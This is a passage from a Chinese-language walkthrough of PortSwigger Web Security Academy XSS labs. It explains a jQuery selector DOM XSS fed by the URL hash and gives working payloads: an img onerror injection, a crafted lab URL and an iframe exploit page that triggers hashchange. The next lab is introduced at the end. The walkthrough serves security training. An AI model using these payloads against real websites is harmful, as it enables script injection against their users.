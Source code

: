 會回傳

```
"Procrastination"
```

而在前面有一個 `decodeURIComponent` 會做 URLDecode 的部分，整段他會做一個字串加法，再放到 `$()` 中

字串加法在這邊
```
'section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')'
```

經過了一些測試， JQuery 可以直接 parse HTML，而且不會特別去管語法的完整性，也就是說右括號不呱也沒關係，例如這樣就可以 XSS

```
$(`h2:contains(""<img src=1 onerror=alert(1)>`)
```

繼續測試發現，甚至這樣也可以
```
$(`h2:contains(""<img src=1 onerror=alert(1)>`)
```

所以那就用最簡單的方法，網址打
```
https://ace11fbf1f8f9486c0e1ac8100d700c0.web-security-academy.net/#%3Cimg%20src=1%20onerror=alert(1)%3E
```

但需要注意的是他的觸發條件是 `hashchange`，所以我們需要建立一個 iframe 來控制 change 的 src 讓他途中會變動

```html
<script>
    function meow(){
        console.log(document.getElementsByTagName("iframe")[0].src);
      setTimeout(() => {
        document.getElementsByTagName("iframe")[0].src="https://ace11fbf1f8f9486c0e1ac8100d700c0.web-security-academy.net/#%3Cimg%20src%3D1%20onerror%3Dprint%28%29%3E";
        console.log(document.getElementsByTagName("iframe")[0].src);
          }, 
      1000);
    }
</script>

<iframe src="https://ace11fbf1f8f9486c0e1ac8100d700c0.web-security-academy.net/#meow" onload="meow()">
</iframe>
```

## [Lab: Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)
### 題目敘述
 This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function. 
### 題目解釋
不能用 HTML 的角括號，試試看汙染 HTML 的 attribute，用一些事件來構成 XSS
